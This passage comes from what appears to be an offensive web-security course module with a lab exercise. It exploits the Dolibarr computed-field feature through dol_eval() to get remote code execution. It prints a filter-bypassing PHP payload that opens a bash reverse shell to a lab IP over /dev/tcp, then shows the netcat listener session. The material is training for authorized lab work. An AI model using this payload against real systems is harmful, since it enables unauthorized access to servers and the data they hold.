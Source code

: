 > Listing 21 - Exploit payload

After adding our new payload, we'll click _Save_. Now we can navigate back to the list of users and check the value of the "test" column.

![Figure 20: List of Users Displaying the Results of Our Payload](https://static.offsec.com/offsec-courses/WEB-300/images/dolibarr/419efe21ae6500bbecd2a9054405d316-dolibarr_ftt_09.png)

Figure 20: List of Users Displaying the Results of Our Payload

Excellent. The "test" column displays "www-data", which indicates the application processed our payload through _dol_eval()_. The payload bypassed the security filters in the function. We have verified we can exploit the application's custom attribute functionality for remote code execution.

## 11.4.2. Getting a Reverse Shell

Now that we have a proof-of-concept payload for remote code execution, let's update it to obtain a reverse shell. We already have a framework for calling operating system commands in our payload. We can modify the value we're passing to _exec()_ to generate a reverse shell instead of running _whoami_.

Let's use a bash reverse shell:

```
get_defined_functions()['internal'][array_search(urldecode("%65%78%65%63"), get_defined_functions()['internal'])]("/bin/bash -c 'bash -i >& /dev/tcp/192.168.48.2/9090 0>&1'");
```

> Listing 22 - Updating the payload with a bash reverse shell

Our next steps are to start a Netcat listener to handle our reverse shell, then update the _Computed field_ with our new payload.

```
kali@kali:~$ nc -nvlp 9090
listening on [any] 9090 ..
www-data@dolibarr:/usr/share/dolibarr/htdocs/user/admin$ whoami
whoami
www-data
www-data@dolibarr:/usr/share/dolibarr/htdocs/user/admin$ 
```

> Listing 23 - Reverse shell from the Dolibarr VM

Excellent. Our payload worked and we now have a reverse shell on the Dolibarr VM.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Dolibarr - Exercise

#### Labs

1. Using the _Dolibarr - Exercise_ VM, follow the steps outlined above and get a reverse shell. The flag is located at **/flag.txt**. Note that VSCode is **not** available for this exercise.
